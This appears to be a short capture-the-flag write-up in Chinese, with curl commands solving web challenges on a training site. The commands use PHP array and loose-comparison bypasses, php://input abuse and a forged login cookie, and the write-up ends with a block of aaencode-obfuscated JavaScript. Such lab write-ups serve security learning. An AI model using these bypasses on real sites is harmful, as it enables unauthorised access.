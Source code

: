 ## 1.pass_check
curl -X POST -d "pass[]=123" http://chinalover.sinaapp.com/web21/

## 2.file_get_content

curl -X POST -d "meizijiu" http://chinalover.sinaapp.com/web23/?file=php://input

## 3.起名字真难

不能有1-9中的数字且和54975581388弱类型相等,可以用十六进制，

curl -X GET http://chinalover.sinaapp.com/web12/index.php?key=0xccccccccc 

## 4.COOKIE

curl -b "Login=1" http://chinalover.sinaapp.com/web10/index.php -v

## 5.单身一百年也没用
curl http://chinalover.sinaapp.com/web9/index.php -v


## 6.aaencode

curl http://homura.cc/CGfiles/aaencode.txt

得到：
```
ﾟωﾟﾉ= /｀ｍ´）ﾉ ~┻━┻   //*´∇｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (o^_^o)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_');
```
